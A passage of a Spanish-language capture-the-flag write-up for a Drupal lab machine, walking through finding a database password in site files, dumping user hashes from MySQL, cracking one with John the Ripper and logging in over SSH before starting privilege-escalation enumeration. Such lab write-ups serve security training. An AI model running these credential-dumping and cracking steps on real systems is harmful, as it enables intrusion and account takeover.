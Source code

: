 Ahora ya se puede investigar manualmente. Apuntamos los recursos que parecen interesantes.

- authorize.php
- cron.php
- includes/database
- includes/password.inc
- sites/default/

Lo miramos hasta que encontremos cosas interesantes. En un fichero encontramos un user **drupaluser** y su contraseña.

Miramos los usuarios de la maquina 

```bash
grep "sh$" /etc/passwd
#Output
root
brucetherealadmin
```

Como el servicio ssh esta abierto miramos si la contraseña functiona con el usuario brucetherealadmin pero no functiona.

Como hemos visto ficheros *mysql* intentamos conectar con el **drupaluser** y functiona.

```bash
mysql -u 'drupaluser' -p "SLKDENkldajsn!!$" -e 'show databases;'
mysql -u 'drupaluser' -p "SLKDENkldajsn!!$" -e 'use drupal; show tables;'
mysql -u 'drupaluser' -p "SLKDENkldajsn!!$" -e 'use drupal; describe users;'
mysql -u 'drupaluser' -p "SLKDENkldajsn!!$" -e 'use drupal; select name,pass from users;'
```

Encontramos el usuario 'brucetherealadmin' y su contraseña encryptada.

### John {-}

1. copiamos el hash en un fichero llamado 
```bash
 hash 
```

1. john --wordlist=/usr/share/wordlists/rockyout.txt hash

Ya tenemos contraseña para el usuario *brucetherealadmin*

### SSH {-}

```bash
ssh brucetherealadmin@10.10.10.233
```

ya tenemos la flag user.txt
## Escalada de privilegios {-}

### Enumeracion del usuario en la maquina victima {-}

```bash
whoami
id
sudo -l
```

